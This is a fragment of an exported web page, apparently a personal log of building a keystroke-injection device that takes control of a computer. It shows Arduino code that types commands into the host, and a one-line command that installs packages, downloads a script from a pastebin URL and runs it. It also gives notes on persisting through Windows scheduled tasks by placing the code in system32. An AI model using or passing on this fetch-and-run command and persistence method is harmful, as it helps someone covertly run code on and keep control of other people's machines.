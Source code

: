         Keyboard.press(KEY_RETURN);
                                                  delay(100);                       // Wait for the computer to register the press.

             Keyboard.releaseAll(); 

        


                Keyboard.print(&quot;exit&quot;);
                                          delay(100);                       // Wait for the computer to register the press.

                Keyboard.press(KEY_RETURN);
                                          delay(100);                       // Wait for the computer to register the press.
             Keyboard.releaseAll(); 

             





  } else {
    // turn LED off:
  }  
  
  
  
                       // Wait for the computer to register the press.


  

}</code></pre></details></li></ul><ul id="94682867-2763-4a8e-83cc-c5fed80b5052" class="toggle"><li><details open=""><summary>Mac/Linux Command</summary><pre id="0be78648-ff9f-4a68-9255-852bb0d0121d" class="code"><code>pip install schedule pyaes &amp;&amp; curl -s https://pastebin.com/raw/Nbf5criN &gt; myProgram.py &amp;&amp; python myProgram.py</code></pre></details></li></ul><p id="81ebbcfa-d8b0-43b3-b60b-4f0aa5a7be53" class="">
</p><h2 id="698f4740-1e6c-4bb5-a0a9-2b209eab8806" class="">Making it run on every startup</h2><p id="a2861d0a-1821-4ee6-a957-c28e24335561" class=""><a href="https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks-create">https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks-create</a></p><h1 id="3df91d14-78bc-4cb5-8189-12248faa53fa" class="">Issues</h1><hr id="2aeec9c7-fa44-49f0-8f9a-510b7322b164"/><h3 id="c3bd9c97-37f8-4de7-b851-9e32d17eae37" class="">Pastebin Deleted my Code</h3><figure id="6963810f-a6fd-491f-a921-f1f50495242c" class="image"><a href="/assets/Gaining%20co%20b8870/Screen_Shot_2021-10-13_at_3.11.07_PM.png"><img style="width:2848px" src="/assets/Gaining%20co%20b8870/Screen_Shot_2021-10-13_at_3.11.07_PM.png"/></a></figure><hr id="cc3c547d-245c-4e18-bbf1-1e8f40d5d801"/><h3 id="6b8afec9-161d-4897-8852-c7074cd2850e" class="">Windows scheduler errors</h3><p id="9189de72-ff1e-4b38-81d6-f969ace57bf8" class="">This one took me a while</p><p id="fec345f3-c751-4dad-95af-d3291cab7dfb" class="">If the permissions are not set right, then it wont work</p><figure id="70beeaf5-2229-43a7-ab1f-6d7de4e9789d" class="image"><a href="/assets/Gaining%20co%20b8870/Screen_Shot_2021-10-13_at_3.14.13_PM.png"><img style="width:1598px" src="/assets/Gaining%20co%20b8870/Screen_Shot_2021-10-13_at_3.14.13_PM.png"/></a></figure><p id="7bb320b3-132a-4ce0-9f96-6d1baee78b09" class="">
</p><p id="0548fdd7-128b-4dcd-b240-5ef46c84c174" class="">Basically in the end I had to specify a relative path. So where do we run the command from, and then the command. EXEPT FOR ONE ISSUE. In the CMD version (something we can do) there is no option to set relative path. So I had to go full brain mode, and put the code in the system32 folder, so that the &quot;relative path&quot; is the default one</p></div></article></body></html>